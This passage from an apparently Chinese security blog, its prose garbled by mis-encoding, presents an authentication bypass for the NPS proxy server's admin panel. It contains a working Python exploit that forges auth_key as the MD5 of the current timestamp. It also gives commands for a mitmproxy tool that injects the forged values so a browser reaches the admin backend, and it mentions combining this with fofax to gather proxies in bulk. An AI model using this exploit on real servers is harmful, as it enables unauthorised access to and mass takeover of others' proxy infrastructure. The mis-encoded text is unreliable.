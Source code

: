 ```
import requests
import time
import hashlib

now_timestamp = str(int(time.time()))
auth_key = hashlib.md5(now_timestamp.encode()).hexdigest()

burp0_url = f"http://xxx/?auth_key={auth_key}&timestamp={now_timestamp}"
r = requests.get(burp0_url)
if "title-admin" in r.text:
    print("Success")
```
### å·¥å·

åå¦éè¦è®¿é®webçé¢è¿å¥åå°ï¼éè¦æ¯20sçæ`timestamp`å`auth_key`

æä»¥è¿éä½¿ç¨`mitmproxy`ä½ä¸ºä¸­é´äººï¼èªå¨çæå¹¶æå¥`timestamp`å`auth_key`

æå·²ç»åå¥½äºå·¥å·ä¸ä¼ è³github <https://github.com/carr0t2/nps-auth-bypass>

#### ä½¿ç¨æ¹æ³

webç«¯ å¯ä»¥ç´æ¥å¨æµè§å¨è®¿é®åå°

```
git clone https://github.com/carr0t2/nps-auth-bypass
cd nps-auth-bypass
mitmdump -s main.py -p 8000 --ssl-insecure --mode reverse:http://x.x.x.x:x/
```

æµè§å¨è®¿é® <http://127.0.0.1:8000/>

#### å¶ä»èæ¬

å¯ä»¥èå¨fofaxæ¹éè·åä»£çç­

---

è¯è®º

 ä¸ä¸ç¯
[![äºåçå­¦ä¹ ç¬è®°-1 å®è£k8s](https://images.carrot2.cn/img/2022-09-04_ce9e007005872a51f8acc5e7076a4a05.png)
äºåçå­¦ä¹ ç¬è®°-1 å®è£k8s](/2022/08/cloud-native-note-1.html)
äºåçå­¦ä¹ ç¬è®°-1 å®è£k8s çæ¬1.2.4

2022-08-20

[Web](/categories/Web/)

[Web](/tags/Web/)
[äºåç](/tags/%E4%BA%91%E5%8E%9F%E7%94%9F/)
[ç¬è®°](/tags/%E7%AC%94%E8%AE%B0/)

ä¸ä¸ç¯

[![CVE-2021-29454](https://images.carrot2.cn/img/2022-03-23_e54d2e8dbd080dae7c4e5cb0803aadff.png)
CVE-2021-29454](/2022/03/cve-2021-29454.html)
æ¾ä¸å°payloadçCVE-2021-29454
